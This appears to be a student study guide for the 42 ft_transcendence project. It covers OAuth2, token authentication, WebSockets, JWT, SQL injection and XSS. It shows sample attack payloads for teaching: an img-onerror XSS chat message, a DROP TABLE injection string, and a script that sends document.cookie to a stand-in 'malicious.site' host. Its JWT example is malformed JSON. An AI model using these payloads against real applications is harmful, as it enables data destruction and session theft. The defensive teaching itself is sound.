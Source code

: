 API - a set of rules and protocols that allows different software applications to communicate with each other

---
#### OAuth2

OAuth2 is an authorization protocol that lets users log in using external services (e.g. Google, GitHub, school intranet), without sharing their password directly with your site. Instead, it exchanges secure tokens to verify identity between systems.

### 🔐 Why Use OAuth2?
- Offloads credential management to trusted providers
- Simplifies account creation and login
- Useful if you're connecting to platforms like the 42 API or any centralized user database

### ⚠️ Restrictions in This Project

You **cannot use libraries or tools** that:
- Provide a **complete out-of-the-box OAuth solution** (e.g. `passport`, `Auth0`, `NextAuth`)
- Implement the entire login flow on your behalf

✅ You **can** use:
- Small utilities that handle **subtasks** (e.g. parsing a redirect URL or encoding a token)
- Manual integration: sending your own requests to an OAuth provider, handling redirects, and managing tokens manually

🧠 Note: OAuth2 is **not required** for ft_transcendence. You can implement a local alias system or custom login instead.

<details>
<summary><em>Example (Manual OAuth2 Flow)</em></summary>

Let’s say your team chooses to use the 42 API for user login. Here’s how you could approach it **without violating constraints**:

1. **Redirect user to 42’s login URL** with proper client ID and scopes  
   → You can hardcode or generate this manually

2. **User logs in**, and 42 redirects back to your site with an authorization code  
   → You capture this code in your frontend or backend

3. **Exchange the code for a token** using a POST request from your server  
   → Manual `curl` or native PHP logic — no external library needed

4. **Store the token** securely (server-side or in a cookie)  
   → Use it to authenticate the user across the session

This way, you’re respecting the rule: **you’re not importing a full OAuth module**, you’re stitching the flow together piece by piece.

</details>

---


## Token based authentication

A method where users are identified using a temporary, secure token (usually a string or session ID) issued after login. The server validates this token with each action to confirm the user’s identity, without needing to store passwords or credentials long-term.

- Can be used with simple alias systems or full login flows
- Does **not require OAuth2**
- Useful for verifying players during tournaments, chat messages, or game submissions

<details>
<summary><strong>Example</strong></summary>

> Think of how you created a session in **webserv**: after a user logged in, you might have stored a session ID in a cookie or header. Each subsequent request checked that ID to confirm the user was valid — *that's token-based authentication.*
>
> Similarly, in **ft_irc**, each client had to introduce itself (e.g. with a nickname) before sending commands. While it wasn't technically a "token," the concept is similar: assign an identity, and validate it before letting the user interact.
>
</details>
This approach lets you build custom lightweight security for things like tournament actions, chat messages, and match submissions, even if you're not using full login systems or external identity providers.

---

## Websockets

WebSockets are a protocol that creates a **persistent, two-way connection** between a user's browser and your server. Unlike traditional HTTP (which sends a request and then closes), WebSockets stay open, making them ideal for live interaction.

### 🔧 What They’re Used For
- **Real-time Pong gameplay** (syncing ball and paddle positions)
- **In-game chat** (players see each other's messages instantly)
- **Live match updates** (e.g. "Next match: Alice vs Bob")
- **Player status events** (disconnects, score changes)

### 🔄 How They Keep Data Live
Once a WebSocket connection is opened, both client and server can push data to each other **at any time**, without needing to refresh the page or send separate HTTP requests.

<details>
<summary><strong>Example1</strong></summary> 
   
> Bob moves his paddle → browser sends a WebSocket message to server  
> Server immediately forwards that to Alice’s browser  
> Alice sees Bob’s paddle move, in real time

This keeps gameplay smooth, without delay or polling.
</details>



### 🛡️ Security & Sanitation
WebSockets are just a data channel, they don’t sanitize anything by default.

You **must** manually clean and validate anything users send:
- **On the server**, before storing or rebroadcasting (SQLi risk)
- **On the client**, before displaying in the DOM (XSS risk)

<details>
<summary><strong>Example2</strong></summary>
 
> A user sends a chat message with weird code or unexpected HTML  
> If you display it without filtering, it could break your page — or worse, run scripts  
> Always treat WebSocket messages like *untrusted input*

### 🧪 Beginner-Friendly Example
WebSockets commonly transmit data using lightweight JSON messages , here is a clean and maliciouse message:

```json
{
  "event": "chat",
  "sender": "Alice",
  "message": "Good luck!"
}

{
  "event": "chat",
  "sender": "Alice",
  "message": "<img src='x' onerror='alert(\"Hacked!\")'>"
}
```
</details>

---

### JWT

JWT stands for *JSON Web Token*. It's a compact, secure string used to verify a user's identity after login or registration.
After a successful login, the server creates a token using a **payload** (containing user data) and **signs** it with a secret key, typically using an algorithm like HMAC SHA256.
The final token is sent to the browser, and used in future requests so the server knows who’s interacting without needing to log in again each time.

<details>
<summary><strong>Payload example</strong></summary>
   
```json
{
  "alg": "HS256",
  "typ": "JWT"
}

{
  "userId": " 42 "
   "alias": "Alice")"
}
```

the server takes this payload (header and user data) , creates a signiture and applies it to the end of the token

``` <encoded-header>.<encoded-payload>.<signature> ```

</details>



### 🧾 Token storage options
##### Cookies
- Login persist across sessions and browser refresh
- Can be HTTPonly (secure flags) to reduce XSS risk
- Auto sent with requests, ideal for backend validation
- Or store in a session store (like Redis) tied to a cookie token
##### Memory
- (e.g. JS variable)	Temporary login, single session, lost on page reload
- Simpler, useful for lightweight or temporary login

Most teams use Node.js, Python, Go, or PHP for JWT-heavy work because of mature libraries and easy support for hashing, signing, and validation.

---

### SQL Injection

SQL Injection is a type of attack where malicious users send crafted input that tricks your server into executing unintended database commands.
Instead of behaving like simple form input, the attacker embeds **SQL commands** into the request, potentially altering or destroying data.

### ⚠️ Example (Unsafe Query)
<details>
<summary><strong>unsafe query example</strong></summary>

```sql
SELECT * FROM users WHERE name = 'Alice';
```
An attacker might submit:

```sql
'Alice'; DROP TABLE users; --
```

This tunrs your query into
```sql
SELECT * FROM users WHERE name = 'Alice'; DROP TABLE users; --
```

🧨 Result: Your entire users table gets deleted, all accounts wiped.
</details>

### 🛡️ Typical Prevention
- Use parameterized queries or prepared statements

```sql
SELECT * FROM users WHERE name = ?
```
- Never build SQL queries using raw user input
- Sanitize and validate input server-side, especially for:
   - Login forms
   - Search fields
   - Any user-controlled input that interacts with a database
Backend protects by:

---

### XSS Cross Site Scripting
Cross-Site Scripting (XSS) is an attack where a user submits malicious content that gets rendered as executable code in someone else's browser.

Often used to:
- Steal cookies or session tokens
- Trick users with fake login prompts
- Break or deface UI content

### ⚠️ Example (Injected Script)
<details>
<summary><strong>injected script example</strong></summary>
   
Attacker sends a chat message:
```html
<script>fetch('https://malicious.site/send?cookies=' + document.cookie)</script>
```

if this is displayed raw in frontend: 

```html
<div>User says: <script>...</script></div>
```
🧨 Result: The script runs in every viewer’s browser, sending their cookies to the attacker.

</details>

🛡️ Typical Prevention
- Sanitize user content before displaying
- Escape <, >, ", ', /, and other unsafe characters
- Use text-safe render methods (e.g. textContent, not innerHTML)
- Set Content Security Policy (CSP) headers to restrict which scripts can run
- Avoid trusting input across chat, comments, forms, or aliases

🧠 TL;DR If someone submits HTML, never render it raw. Treat user input like radioactive material until cleaned.

---
